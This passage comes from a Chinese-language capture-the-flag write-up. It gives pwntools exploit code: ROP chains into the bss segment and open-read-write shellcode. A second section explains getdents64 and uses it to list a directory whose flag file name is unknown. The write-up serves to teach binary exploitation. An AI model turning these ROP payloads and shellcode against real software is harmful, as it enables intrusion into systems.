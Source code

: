 ```bash
print(flag20) #flag16db44a3ec6a5c404373

#5 read(0,bss+0x400,0x100)
p.sendline('-1')
pl = b'a'*0x38+p64(rdi)+p64(0)+p64(rsi_r15)+p64(bss+0x400)+p64(0)+p64(rdx)+p64(0x100)+p64(read_addr)+p64(bss+0x400)

p.send(pl)

#6 ORW
p.recvuntil('done!\n')
shellcode = b''
shellcode += asm(shellcraft.open('flag16db44a3ec6a5c404373'))
shellcode += asm(shellcraft.read(4,bss+0x600,0x100))
shellcode += asm(shellcraft.write(1,bss+0x600,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
p.send(shellcode)

itr()
```

‍

#### 黄河流域 2022-flag??????

比赛出的一道题，利用手法是栈迁移，但改了 flag 名称

在 flag 文件名未知的情况下无法构造常规 orw 来读取

这时候可以利用 getdents64 函数，它读取目录文件中的一个个目录项并返回

> 参数一：fd 指针
> 
> 参数二：写入的内存区域
> 
> 参数三：4096
> 
> 功能：把当前文件目录下的文件名写入参数二指向的内存区域

ogw 实现将 getdents64 读取的目录参数放入 bss 段，再打印出来

```bash
pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)
```
